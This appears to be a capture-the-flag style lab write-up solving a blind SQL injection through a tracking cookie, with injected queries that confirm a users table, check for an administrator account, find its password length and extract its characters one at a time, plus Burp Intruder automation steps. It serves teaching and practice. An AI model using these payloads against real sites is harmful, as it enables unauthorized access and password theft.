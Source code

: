 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234766625-5e8e25d3-387c-40d5-88b6-2c348a1ecb6b.png)

## Solution :


Request looks like 

![image](https://user-images.githubusercontent.com/67383098/234805007-50a73456-c90f-4288-a3bc-2b559e87e890.png)


Query made looks something like -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
where trackingID - `g2w1yAddN9LlERl3` Cookievalue - `xdpiZNiyUyxtsAfDKlsfxYJldM3xW576`

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back. 

We can perform a SQL  injection on trackingID parameter , 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

there maybe 2 results - TrackinID does/does not exist.

- Condition(1=1) = **TRUE** -> **Welcome back message is shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810681-972b65ca-014f-4906-aca9-5201cebea564.png)


- Condition(1=2) = **FALSE** -> **Welcome back message is not shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810921-cc49f440-dca7-4ba7-98ff-a5e4aa8e555d.png)


From the above responses, we can we can exploit the blind injection vulnerablitiy .

#### Conform that there is users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --
```

```
This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.
```

![image](https://user-images.githubusercontent.com/67383098/234817409-11451756-02b5-4822-8916-17e4b53f1065.png)

We see a *Welcome back* msg , so it conforms that there is a users table.

#### Conform that username administrator is present in users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT username FROM users WHERE username='admnistrator') = 'administrator'--
```
OR 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--
```

![image](https://user-images.githubusercontent.com/67383098/234822414-89112d5b-720c-4688-b285-a9396bdbbd48.png)

We confirm that there is a user called `administrator` in the database.

#### Find the length password of administrator 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1 )='administrator'--
```

In particular, the subquery `(SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)` is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string `AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'` is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

![image](https://user-images.githubusercontent.com/67383098/234827083-97984765-77d1-46be-b72b-09f9923ff647.png)

This confirms that the password is greater than 1

If we send the value as  50 ie ` AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>50 )='administrator'--`  , we dont get any welcome message which means its not > 50  characters.

![image](https://user-images.githubusercontent.com/67383098/234827767-30367782-0bbe-4f38-8d2a-15635f1ae154.png)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.

#### Bruteforce the 20 character length password


Use the same query as above bu thios time we use the  **SUBSTRING** method `(SELECT SUBSTRING(password,1,1)` to get each letter of the password and loop through it  to check if 1st letter is =a/b/c ... & so on.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```
From the above command we take the 1st character of the password & check if it is = 'a'.
Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this  -

1. Attack type - Cluster bomb
2. Payload 1 - length checking part [>1]
3. Payload 2 - character checking part ['a'--]
4. Payload 1 type - Numbers [range 1-20]
5. Payload 2 type - Bruteforcer [min & max length = 1]
















